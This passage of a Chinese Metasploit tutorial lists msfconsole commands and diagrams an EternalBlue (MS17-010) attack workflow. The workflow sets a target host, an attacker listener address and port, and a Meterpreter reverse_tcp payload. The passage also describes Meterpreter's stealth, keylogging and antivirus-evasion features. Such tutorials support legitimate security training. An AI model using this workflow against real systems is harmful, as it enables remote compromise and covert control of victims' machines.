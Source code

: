 *   **`search [关键字]`**：搜索模块，例如 `search ms17-010`。
*   **`use [模块路径]`**：选择一个模块，例如 `use exploit/windows/smb/ms17_010_eternalblue`。
*   **`show options`**：显示当前模块的所有可用选项。
*   **`set [选项名] [值]`**：设置模块选项，例如 `set RHOSTS 192.168.1.100`。
*   **`setg [选项名] [值]`**：设置全局选项（对所有模块生效）。
*   **`unset [选项名]`**：取消设置模块选项。
*   **`unsetg [选项名]`**：取消设置全局选项。
*   **`show payloads`**：显示当前 Exploit 可用的 Payload。
*   **`set PAYLOAD [载荷路径]`**：选择 Payload，例如 `set PAYLOAD windows/meterpreter/reverse_tcp`。
*   **`show targets`**：显示当前 Exploit 支持的目标操作系统版本。
*   **`set TARGET [索引号]`**：设置目标索引。
*   **`exploit` / `run`**：执行当前选定的 Exploit 或 Auxiliary 模块。
*   **`sessions`**：列出当前的 Meterpreter 会话。
*   **`sessions -i [ID]`**：进入指定 ID 的 Meterpreter 会话。
*   **`background`**：将当前 Meterpreter 会话放到后台。
*   **`info`**：显示当前模块的详细信息，包括描述、引用、兼容的 Payload 等。
*   **`check`**：在执行 Exploit 前，检查目标是否可能存在漏洞。
*   **`quit` / `exit`**：退出 msfconsole。

### 3.2 基本渗透流程示例 (以 EternalBlue 为例)

{% mermaid %}
graph TD
    A[启动 msfconsole] --> B(search ms17-010)
    B --> C(use exploit/windows/smb<br>/ms17_010_eternalblue)
    C --> D(show options)
    D --> E(set RHOSTS 192.168.1.100)
    E --> F(set LHOST 192.168.1.5 <br>监听地址，攻击机IP)
    F --> G(set LPORT 4444 监听端口)
    G --> H(show payloads)
    H --> I(set PAYLOAD windows<br>/meterpreter/reverse_tcp)
    I --> J{check - 检查漏洞是否存在}
    J -- 存在 --> K(run / exploit)
    K --> L(等待Meterpreter会话建立)
    L --> M(与目标进行后渗透操作)
    J -- 不存在或无法检测 --> N(尝试其他Exploit或辅助模块)
{% endmermaid %}

## 四、Meterpreter - 高级后渗透 Shell

**Meterpreter (Meta-Interpreter)** 是 Metasploit 框架中最受欢迎和功能最强大的 Payload 之一。它是一个高级、动态且多功能的交互式 Shell，一旦在目标系统上运行，就能提供非常强大的后渗透能力。

### 4.1 Meterpreter 的特点

*   **内存驻留 (In-Memory)**：减少在磁盘上留下痕迹，提高隐蔽性。
*   **功能丰富**：支持文件系统操作、进程管理、网络通信、提权、屏幕截图、键盘记录等。
*   **模块化和可扩展**：可以在运行时动态加载扩展模块，实现更多功能。
*   **避免杀软检测**：其 Stage/Stageless 机制和多种编码选项有助于绕过检测。
*   **加密通信**：通常使用 `staged` 或 `reverse_` 系列 Payload，与 `LHOST` 建立加密通信。

### 4.2 常用 Meterpreter 命令

